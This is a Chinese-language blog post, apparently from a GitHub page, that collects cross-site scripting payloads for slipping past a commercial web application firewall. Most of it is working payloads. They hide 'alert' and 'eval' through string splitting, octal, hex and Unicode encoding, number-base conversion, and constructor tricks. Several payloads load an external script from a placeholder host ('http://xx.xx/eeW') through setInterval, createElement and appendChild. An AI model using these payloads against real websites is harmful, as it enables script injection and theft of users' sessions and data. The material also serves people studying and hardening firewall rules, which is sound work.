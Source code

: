 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```html
//一家人就是要整整齐齐
<details open ontoggle=top['al'%2B'ert'](1) >
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
<details open ontoggle=window['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `window`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 其他补充
除了拆分构造，我们必须要了解还有编码，这个确实是老生常谈的话题，先看个例子吧

将e字母url编码，成功弹窗也绕过waf。
`<details open ontoggle=top['al%65rt'](1) >`
![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xte6v6ioj30uj07bwf4.jpg)

其他编码
```html
JS8编码：
<details open ontoggle=top['al\145rt'](1) >
<details open ontoggle=top['\141\154\145\162\164'](1) >
JS16编码：
<details open ontoggle=top['al\x65rt'](1) >
其他
<details open ontoggle=top[/al/.source%2B/ert/.source](1) >
```
### parseInt()与toString()
- - -
**parseInt()**

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw3xjyifj30nj0b1dga.jpg)

例子: `alert`字符串用`parseInt函数`，以基数为30转化后为`8680439`


![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw6xbo82j30ff05tq2z.jpg)

**toString()**


![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwe1vapzj30g809z0sx.jpg)

例子: `toString函数`将返回的数字`8680439`,以基数为30还原

![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwgo4zb3j30fl083wen.jpg)

这样你就能理解下面这个例子了。
```html
<details open ontoggle=top[8680439..toString(30)](1); >
<details open ontoggle=top[11189117..toString(32)](1); >
```
![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwsdzqctj30uj0930tj.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```html
<details open ontoggle=top[a='al',b='ev',b%2ba](atob('YWxlcnQoMSk='))>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。 
```html
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```

## eval函数的补充
- - -
#### setTimeout

![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ycyd6jedj30no0adt90.jpg)

waf拦截
```html
<svg/onload=setTimeout`alert(1)`>
```
![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy2v7lvnj30uj05d74p.jpg)

编码下，就绕过了。
```html
<svg/onload=setTimeout`alert\u0028233\u0029`>
```
![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy76ggesj30uj0813z5.jpg)

#### setInterval

与`setInterval`不同，对于`setTimeout()`只执行code一次。

![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yczzsa24j30no0exwf8.jpg)

`<svg/onload=setInterval('al'%2b'ert(1)')>`

![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd573lavj30uj09qwf9.jpg)

绕过waf，引用外部js。
```html
<svg/onload=setInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
```
![22](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd9dqh46j30uj0e4q4j.jpg)

#### 其他
```html
拆分与编码
<svg/onload=\u0073etInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('sc\162ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(\u0061ppendChild(\u0063reateElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
 
结合函数：
<iframe onload=s=createElement('script');body.appendChild(s);s.src=['http','://','xx.xx','/eeW'].join('') >
<svg/onload=s=createElement('script');body.appendChild(s);s.src=['http']%2B['://']%2B['xx.xx']%2B['/eeW'].join('') >
<svg/onload=s=\u0063reateElement('scr'%2b'ipt');\u0062ody.\u0061ppendChild(s);s.src='http://x'.concat('x.xx/','eeW'); >
```

### 扩展
- - -

关于运用基于DOM的方法创建和插入节点把外部JS文件注入到网页，这种方法在<<XSS跨站脚本gj剖析与防御>>有介绍过。我这里简单演示下，如果你了解或者不感兴趣可以跳过这段。

首先用createElement方法创建一个script标签。

![23](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydpwjmafj30fh07jt8s.jpg)

接下来给<script>的src属性设置成外部url
 
![24](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydrl28mhj30fe0b1jrn.jpg)

可以看到<script>标签以及src属性已经被创建出来，但是并不在页面上输出啊。
 
![25](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf3ujkccj30fe0a174d.jpg)

我们就要用到appendChild()方法将变量s插入页面。

![26](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf6k40vgj30fg08gt93.jpg)

再来看看页面上

![27](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf7nce1dj30fe0620ss.jpg)

### constructor属性
- - -

![28](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk1fdzqmj30fh07idfu.jpg)

少年!Post到什么了没有。

![29](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk4ibtegj30m3047weh.jpg)

又是拆分。。注意后面的`()`

```html
<svg/onload=Set.constructor('al'%2b'ert(1)')()>
```
![30](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk7bt75gj30uj09a3z9.jpg)

反引号我看行。。注意后面2个反引号。

```html
<svg/onload=Set.constructor`al\x65rt\x28/xss/\x29```>
```
![31](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykdta6tvj30uj0943z9.jpg)

又来引用外部url。编码拆分以及结合函数，请参考上章= =，不然我怕有人说我水。。。

![33](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykjq4xx5j30k00ha3z9.jpg)

```html
<svg/onload=Set.constructor(appendChild(createElement('script')).src='http://xx.xx/eeW')()>
```
![32](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykhi14qsj30uj0b63zz.jpg)

### 补充(又是补充，你**就不能一次讲完嘛!写个文章还划水!)
- - -

咳咳，该补充的还是要补充的，除了 Set 对象还有嘛？当然有的。

![33](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykvh8ot8j30ak08rwhp.jpg)

看些例子，都可以弹窗。

![34](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yl20qvebj30sf09rgm2.jpg)

来个简单拆分。

![35](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yl50p5ykj30uj09at9g.jpg)
 
总结起来就是`Set.constructor` `Map.constructor` `clear.constructor` `Array.constructor` `WeakSet.constructor` (注意区分大小写的)

```
<svg/onload=Set.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=Map.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=clear.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=Array.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=WeakSet.constructor`al\x65rt\x28/xss/\x29```>
```

引用外部...

![36](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ylf0t8nsj306o06ojrl.jpg)

感兴趣的同学可以关注：[Github项目](https://github.com/S9MF/Xss_Test/edit/master/waf/YunSuo.md)

## 参考致谢

[vulnerability-lab.com](http://www.vulnerability-lab.com/resources/documents/531.txt)
[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

